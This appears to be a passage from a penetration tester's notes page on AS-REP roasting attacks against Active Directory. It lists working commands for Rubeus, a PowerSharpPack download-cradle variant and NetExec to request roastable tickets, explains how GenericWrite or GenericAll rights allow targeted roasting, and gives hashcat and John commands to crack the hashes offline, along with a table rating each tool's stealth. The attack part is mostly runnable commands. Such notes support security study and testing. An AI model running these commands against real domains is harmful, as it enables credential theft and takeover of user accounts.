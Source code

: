 

### Using Rubeus for AS-REP Roasting Attack:

-   Has an **ASREPRoast**: module for Windows-based attacks:
```powershell
# Standard Rubeus
Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt

# If running via download cradle from PowerSharpPack
PowerSharpPack -rubeus -Command "asreproast /format:hashcat /outfile:hashes.txt"

```
-   {{< figure src="/ox-hugo/2024-11-14-203239_.png" >}}



### Using Netexec for AS-REP Roasting Attack:

-   In my experience this always needs a list of supplied users to attempt to asreproast with.

    <!--listend-->

```bash
netexec ldap $machine.$domain -u Users.txt -p '' --asreproast asRepTickets.txt
```

-   {{< figure src="/ox-hugo/2024-11-14-204516_.png" >}}

### Targeted AS-REPRoasting Attack:

-   If an attacker has `GenericWrite` or `GenericAll` permissions over an account, they can enable this attribute, request the AS-REP for offline cracking, then disable it again
-   The success of this attack depends on the user having a weak password



#### Cracking AS-Rep Tickets {#cracking-as-rep-tickets}

-   **Using Hashcat**:
    -   Mode `18200` for cracking AS-REP hashes
    -   Command: `hashcat -m 18200 asRepTickets.txt wordlist.txt -r rules/best64.rule`

-   **Using John**:
    -   `john --wordlist=~/Wordlist asRepTickets.txt`


#### Tool Comparison Matrix {#tool-comparison-matrix}

| Tool      | Windows/Linux | Auth Required | Stealth Level |
|-----------|---------------|---------------|---------------|
| Rubeus    | Windows       | Yes           | Medium        |
| Impacket  | Linux         | No            | High          |
| PowerView | Windows       | Yes           | Low           |
| NetExec   | Both          | (User list)   | Medium        |
